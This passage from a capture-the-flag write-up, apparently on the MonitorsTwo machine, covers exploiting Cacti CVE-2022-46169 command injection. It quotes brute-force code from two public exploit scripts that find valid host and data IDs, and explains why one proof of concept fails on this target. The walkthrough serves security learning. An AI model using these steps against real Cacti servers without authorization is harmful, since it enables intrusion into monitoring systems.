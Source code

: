 The injection is in `poller_id`, but in order to reach that point, I’ll need to get a valid `host_id` and `local_data_ids`. Most exploit script will brute force these. For example, in [this one](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) has a function to handle this:

```

def bruteForce():
    # brute force to find host id and local data id
    for i in range(1, 5):
        for j in range(1, 10):
            vulnIdURL = f"{vulnURL}?action=polldata&poller_id=1&host_id={i}&local_data_ids[]={j}"
            result = requests.get(vulnIdURL, headers=header)
    
            if result.text != "[]":
                # print(result.text)
                rrdName = result.json()[0]["rrd_name"]
                if rrdName == "polling_time" or rrdName == "uptime":
                    return True, i, j

    return False, -1, -1

```

It’s looking for `rrdName` to be either “polling\_time” or “uptime”. That matches what I see in the SonarSource post:

> This means that attackers can leverage the `poller_id` parameter to inject an arbitrary command when an item with the `POLLER_ACTION_SCRIPT_PHP` action exists. This is very likely on a productive instance because this action is added by some predefined templates like `"Device - Uptime"` or `"Device - Polling Time"`.
>
> The attacker must provide the corresponding id to make the database query return such an item.

### Exploit

#### Failures

When MonitorsTwo released, there were a bunch of POC scripts on GitHub for this vulnerability, and many of them don’t work here. For example, at the time of release for MonitorsTwo, [this one](https://github.com/N1arut/CVE-2022-46169_POC) doesn’t work on this target. It’s because when it does the brute force, it is looking for `words` that includes `polling_time` and some others, but not `uptime`:

```

HEADER = add_header(URL)
words = ["cpu","cmd.php","polling_time","apache"]

def finding_id(URL,HEADER):
    print("[*] Brute-Forcing Process Is Running ...")
    last_url = None
    for id in range(1,11):
        for item in range(1,11):
            url_id = URL+f"&poller_id=1&host_id={str(id)}&local_data_ids[]={str(item)}"
            req_id = requests.get(url_id,headers=HEADER,verify=False)
            if any(x in req_id.text for x in words):
                last_url = URL+f"&host_id={str(id)}&local_data_ids[]={str(item)}&poller_id="
                print("[*] True Ids Founded")
                return last_url
    print("[!] Could Not Find Specific Process")
    exit(0)

```
